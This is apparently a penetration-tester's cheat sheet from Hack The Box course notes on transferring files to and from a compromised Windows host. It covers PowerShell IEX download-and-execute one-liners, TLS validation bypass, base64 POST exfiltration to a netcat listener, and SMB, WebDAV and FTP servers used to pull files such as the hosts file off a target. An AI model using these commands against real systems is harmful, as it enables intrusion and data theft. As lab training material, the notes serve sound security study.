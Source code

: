 # Download Operations

## PowerShell Base64 Encode & Decode

From Linux encode the file contents:
```shell-session
cat <file name> | base64 -w 0;echo
```

Decode the contents into a file using PowerShell:
```powershell-session
PS C:\USers> [IO.File]::WriteAllBytes("<location to save>", [Convert]::FromBase64String("<base64 string>"))
```

Check the file transferred successfully:
From Linux:
```shell-session
md5sum <file location>
```
Should match from PowerShell:
```powershell-session
Get-FileHash <file location> -Algorithm md5
```

## PowerShell Web Downloads

Using [Net.WebClient](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-5.0) for downloading files:
```powershell-session
PS C:\htb> (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>') // Download file

PS C:\htb> (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>') // Download file without blocking the calling thread

PS C:\htb> IEX (New-Object Net.WebClient).DownloadString('<Target File URL>>') // Load a script into the memory
```

From PowerShell 3.0 onwards [Invoke-WebRequest](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.2) is available (although slower):
```powershell-session
Invoke-WebRequest <Target File URL> -OutFile <Output File Name>
```

Bypass Internet Explorer configuration has not been completed:
```powershell-session
PS C:\htb> Invoke-WebRequest <Target File URL> -UseBasicParsing | IEX
```

Bypass no SSL/TLS secure channel:
```powershell-session
PS C:\htb> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

## SMB Downloads

Create SMB server:
```shell-session
[/htb]$ sudo <impacket's smbserver.py file path> <share name> -smb2support <share folder path>
```

Copy a file to the local machine:
```cmd-session
C:\htb> copy \\<ip address>\<share name>\<file name>
```

#### In case of blocked guest access or error copying

Create SMB server with credentials:
```shell-session
[/htb]$ sudo impacket-smbserver <share name> -smb2support <share folder path> -user <username> -password <password>
```

Mount the SMB server:
```cmd-session
C:\htb> net use n: \\<ip address>\<share name> /user:<username> <password>
```

## FTP Downloads

Installing the FTP Server Python3 Module - pyftpdlib:
```shell-session
[/htb]$ sudo pip3 install pyftpdlib
```

Setting up a Python3 FTP Server:
```shell-session
[/htb]$ sudo python3 -m pyftpdlib --port 21
```

Transfering Files from an FTP Server Using PowerShell:
```powershell-session
PS C:\htb> (New-Object Net.WebClient).DownloadFile('ftp://<ip address>/<file name>', '<output file path>')
```

#### In case of no interactive shell

Create a Command File for the FTP Client and Download the Target File:
```cmd-session
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo GET file.txt >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open <ip address>
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\htb>more file.txt
This is a test file
```

# Upload Operations

## PowerShell Base64 Encode & Decode

Encode the file contents:
```powershell-session
PS C:\htb> [Convert]::ToBase64String((Get-Content -path "<file path>" -Encoding byte))
```

Get the MD5 hash:
```powershell-session
PS C:\htb> Get-FileHash "<file location>" -Algorithm MD5 | select Hash
```

Decode the file contents:
```shell-session
[/htb]$ echo <base64 string> | base64 -d > <output file name>
```

Verify the MD5 hash:
```shell-session
[/htb]$ md5sum <file name>
```

## PowerShell Web Uploads

Install a configured web server and start the server:
```shell-session
[/htb]$ pip3 install uploadserver

[/htb]$ python3 -m uploadserver
```

Upload a file to the file upload server:
```powershell-session
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

PS C:\htb> Invoke-FileUpload -Uri http://<ip address>:8000/upload -File <file path>
```

### PowerShell Base64 Web Upload

Encode file contents and send and send a POST request to Netcat:
```powershell-session
PS C:\htb> $b64 = [System.convert]::ToBase64String((Get-Content -Path '<file path>' -Encoding Byte))

PS C:\htb> Invoke-WebRequest -Uri http://<ip address>:8000/ -Method POST -Body $b64
```

Catch the contents with Netcat and decode the contents:
```shell-session
[/htb]$ nc -lvnp 8000

[/htb]$ echo <base64> | base64 -d -w 0 > hosts
```

## SMB Uploads

### Configuring WebDav Server

Installing WebDav Python modules:
```shell-session
[/htb]$ sudo pip install wsgidav cheroot
```

Using WebDav Python moudle:
```shell-session
[/htb]$ sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```

Connecting to the WebDav share:
```cmd-session
dir \\<ip address>\DavWWWRoot(or a share folder)
```

Uploading files:
```cmd-session
C:\htb> copy <file path> \\<ip address>\DavWWWRoot\
C:\htb> copy <file path> \\<ip address>\<share folder>\
```

## FTP Uploads

Installing the FTP Server Python3 Module - pyftpdlib:
```shell-session
[/htb]$ sudo pip3 install pyftpdlib
```

Setting up FTP server with uploading allowed:
```shell-session
sudo python3 -m pyftpdlib --port 21 --write
```

Upload a file to the FTP server:
```powershell-session
PS C:\htb> (New-Object Net.WebClient).UploadFile('ftp://<ip address>/<share folder>', '<file path>')
```

Uploading using a command file:
```cmd-session
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open <ip address>

Log in with USER and PASS first.


ftp> USER anonymous
ftp> PUT <file path>
ftp> bye
```